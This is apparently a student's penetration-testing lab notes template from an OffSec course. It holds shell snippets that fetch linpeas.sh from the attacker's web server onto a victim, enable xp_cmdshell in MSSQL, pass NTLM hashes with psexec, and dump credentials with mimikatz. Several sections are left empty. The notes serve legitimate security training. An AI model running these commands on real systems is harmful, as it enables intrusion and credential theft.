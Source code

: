 ```shell
linpeas.sh
                                                                          
┌──(root㉿kali)-[/home/kali/Documents/offsec_labs_pen200/10.11.1.101]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.11.1.101 - - [31/Mar/2023 19:51:13] "GET /linpeas.sh HTTP/1.1" 200 -

# pulled over linpeas
alfred@break:/tmp$ wget http://192.168.119.132/linpeas.sh
linpeas.sh                    100%[==============================================>] 808.68K  1.30MB/s    in 0.6s 
```
##### Foothold Enumeration Windows

```SHELL
```
##### Privilege Escalation
```shell
```

##### Flag
```powershell
```


###### Lessons Learned:


#ssh #portforwarding
```

In order to access the internal VNC port 5901, an SSH tunnel will need to be established
that will forward traffic from 5901 on Kali to the internal 5901 on the victim.
ssh -R 5901:127.0.0.1:5901 kali@192.168.11.11
```

#phpinfo

```shell
phpinfo.php is a file that contains a lot of information that can help attackers
when trying to target a system, such as: database information, host information, and software
version numbers.
```

#mssqlclient.py
```shell
# connecting with credentials
mssqlclient.py -port 1433 sa:D@t@b@535@192.168.132.1


#Enabling xp_cmdshell successfully allows system command execution in mssql
EXEC sp_configure ‘show advanced options’, ‘1’
RECONFIGURE
EXEC sp_configure ‘xp_cmdshell’, ‘1’
RECONFIGURE
EXEC xp_cmdshell ‘net user’;
```

#psexec #mimikatz

```shell
# generic psexec login with psexec
psexec.py <user> @127.0.0.1 -hashes :NTLM_HASH_HERE

# how to upload files or mimikatz using psexec
lput mimikatz.exe

#mimikatz dumping of credentials
mimikatz.exe privilege::debug sekurlsa::logonpasswords
```